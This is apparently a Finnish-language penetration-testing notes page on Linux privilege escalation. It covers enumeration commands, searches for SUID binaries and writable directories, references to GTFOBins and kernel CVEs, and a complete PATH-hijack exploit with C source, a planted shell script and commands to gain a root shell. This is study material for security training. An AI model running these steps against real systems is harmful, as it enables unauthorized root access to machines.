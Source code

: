 ## Privilege Escalation: Linux

Käyttöoikeuksien nostaminen tapahtuu, kun ensimmäinen jalansija ja alhaisen tason käyttäjätunnus on saatu haltuun.
Tavoite on saada lisää oikeuksia ja päästä mahdollisesti liikkumaan kohdejärjetelmän osiin, joihin ensimmäisellä kaapatulla käyttäjätunnuksella ei välttämättä ole oikeuksia.
Ideaalitavoite on saada root- (Linux) tai Administrator- (Windows) tason oikeudet.

Käyttöoikeuksia voidaan nostaa monella tavalla, riippuen kohdejärjestelmästä.
Usein käyttöoikeuksien nostamisen mahdollistaa väärin konfiguroidut käyttöoikeudet tai haavoittuvat järjestelmän osat.

**Kohdejärjestelmän kartoitus**
```bash
hostname ## Voi löytyä tietoa järjestelmän käyttötarkoituksesta
uname -a ## Kernel -versio
cat /etc/issue ## Voi löytyä tietoa käyttöjärjestelmästä 
cat /proc/version ## Tietoa prosesseista, kernelistä, ja esim. onko compiler (esim. gcc) asennettu
ps ## Process Status, pyörivät prosessit. "ps -A" = kaikki, "ps axjf" = prosessipuu
env ## Ympäristömuuttujat, esim. PATH
sudo -l ## Kaikki komennot, jota käyttäjä voi ajaa sudona
ls -la ## Normaali ls ei näytä piilotettuja tiedostoja
id ## Käyttäjän tiedot ja ryhmä
ifconfig ## Verkkoliikennetietoja
netstat ## Muodostetut yhteydet, "netstat -a" = Kaikki, "netstat -l" = Yhteydettä odottavat. Voi lisätä t (TCP) tai u (UDP), esim. "netstat -at"
```
Find -komentoja (lisää loppuun 2>/dev/null, siistii virheviestit pois)
```bash
find / -name flag1.txt ## Etsi tiedosto flag1.txt
find / -type d -name config ## Etsi kansio config
find / -type f -perm 0777 ## Luku, kirjoitus, suorita -tiedostot kaikille käyttäjille
find / -perm a=x ##  Suoritettavat tiedostot
find / -perm -u=s -type f ## SUID -bittiset tiedostot 
```

**Kernel-haavoittuvuudet**

https://www.linuxkernelcves.com/cves

**Sudo-haavoittuvuudet**
Listaa käyttäjän sudo-oikeudella ajettavat ohjelmat:
```bash
sudo -l
```
Jos löytyy jotain, täältä hyväksikäyttötavat:
https://gtfobins.github.io/

**SUID-haavoittuvuudet**

SUID -bitti suorittaa ohjelman aina ohjelman omistajan oikeuksilla, riippumatta ajajasta.
Ohjelmat, joissa SUID-bitti asetettu:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
Jos löytyy mielenkiintoisen näköisiä, tarkistetaan GTFObinsistä.

**PATH -haavoittuvuudet**
```bash
echo $PATH
```
Kansiot, joihin kirjoitusoikeus:
```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u
```
Jos PATH-muuttujassa on kansio, johon käyttäjä pääsee kirjoittamaan, voidaan ko. kansiosta ajaa ohjelma root-oikeuksilla.

Kansion lisääminen PATH-muuttujaan:
```bash
export PATH=/tmp:$PATH
```
Alla oleva ohjelma "suid_exploit" etsii PATH-kansioista "shell" -nimistä ohjelmaa:

```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("shell");
}
```
Compile ja aseta SUID-bitti
```bash
gcc suid_exploit.c -o suid_exploit -w
chmod u+s suid_exploit
```
Shell-scripti lisätään PATH-muuttujasta löytyvään kansioon, johon käyttäjällä on kirjoitusoikeudet:
```bash
echo "/bin/bash" > shell
chmod 777 shell
```
Lopuksi ajetaan suid_exploit:
```bash
./suid_exploit
```
